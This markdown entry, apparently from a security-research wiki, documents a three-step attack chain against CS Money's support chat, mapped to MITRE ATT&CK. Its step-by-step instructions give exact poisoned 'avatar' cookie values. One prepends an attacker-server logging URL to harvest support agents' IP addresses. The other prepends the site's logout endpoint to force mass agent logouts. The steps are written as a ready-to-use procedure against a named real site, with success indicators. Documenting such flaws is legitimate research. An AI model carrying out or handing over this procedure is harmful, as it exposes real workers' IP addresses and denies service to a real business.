

---
id: a1b2c3d4-e5f6-7890-abcd-ef1234567890
name: Cookie Poisoning in CS Money Support Chat for IP Leak and Agent DoS
type: attack_chain
description: "Multi-stage attack exploiting insufficient avatar cookie validation in CS Money's support chat to leak support agent IPs and force mass logouts via poisoned URLs."
verified: false
submitted: false
step_count: 3
created_at: 2023-10-01T12:00:00Z
updated_at: 2023-10-01T12:00:00Z
procedures: [[procedures/Poison-Avatar-Cookie-with-Malicious-URL]], [[procedures/Initiate-Support-Chat-Interaction]], [[procedures/Trigger-Avatar-Loading-in-Support-Interface]]
techniques: [[Exploit Public-Facing Application]], [[Gather Victim Host Information]], [[Network Denial of Service]]
tactics: [[Collection]], [[Impact]]
tags: cookie-poisoning, dos, information-disclosure, web-vulnerability, support-chat
platforms: Web
tools: []
---

# Cookie Poisoning in CS Money Support Chat for IP Leak and Agent DoS

Multi-stage attack chain demonstrating a complete attack workflow exploiting cookie validation flaws in CS Money's support system.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Browser Developer Tools (e.g., Chrome DevTools)
- Attacker-controlled server (e.g., for IP logging)

### Target Environment

- CS Money website (cs.money)
- Web browser with cookie manipulation capabilities
- No specific ports or services beyond standard HTTPS

### Initial Access Requirements

- Ability to create an account or interact with the support chat on cs.money
- No prior credentials needed beyond basic site access
- Attacker server accessible via HTTPS for logging requests

## Detailed Attack Procedures

### Step 1: Poison Avatar Cookie
procedure: [[procedures/Poison-Avatar-Cookie-with-Malicious-URL]]

**Objective**: Modify the avatar cookie to prepend a malicious URL, bypassing server validation by including the required Steam string.

**Instructions**: Use browser developer tools to edit the 'avatar' cookie. For IP leak, set the value to 'https://attacker-server.com/log/?https://steamcdn-a.akamaihd.net/steamcommunity/public/images/avatars/valid-avatar.jpg'. For DoS, use 'https://cs.money/logout?https://steamcdn-a.akamaihd.net/steamcommunity/public/images/avatars/valid-avatar.jpg'. The server only checks for the presence of the Steam string, allowing the prepend.

**Expected Output**: Cookie updated successfully; no immediate server error.

**Success Indicators**:
- Cookie modification confirmed in browser storage
- Site functionality remains intact post-modification

### Step 2: Initiate Support Chat
procedure: [[procedures/Initiate-Support-Chat-Interaction]]

**Objective**: Start a chat session with support to set up the poisoned avatar display in the agent interface.

**Instructions**: Navigate to the support chat feature on cs.money and send an initial message to engage an agent. This triggers the backend to load user profile data, including the avatar cookie.

**Expected Output**: Chat session opens; message sent without errors.

**Success Indicators**:
- Support chat interface loads
- Confirmation of message delivery

### Step 3: Trigger Exploitation
procedure: [[procedures/Trigger-Avatar-Loading-in-Support-Interface]]

**Objective**: Cause support agents to load the poisoned avatar, resulting in requests to the malicious URL for IP exposure or logout DoS.

**Instructions**: Wait for agents to view the chat or profile; their browsers will attempt to load the avatar as an image, prepending the malicious URL and sending requests to attacker server or logout endpoint. This affects all online agents viewing the chat.

**Expected Output**: Logs on attacker server show agent IPs; or agents report logouts.

**Success Indicators**:
- Incoming requests to attacker server with agent IPs
- Reports of support downtime due to logouts

## Attack Chain Summary

### Key Achievements

1. Bypassed avatar URL validation via partial string matching
2. Leaked IPs of multiple support agents simultaneously
3. Induced denial of service by forcing mass logouts

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Gather Victim Host Information]]
- [[Network Denial of Service]]

### MITRE ATT&CK Tactics

- [[Collection]]
- [[Impact]]

---
*Last updated: 2023-10-01T12:00:00Z*
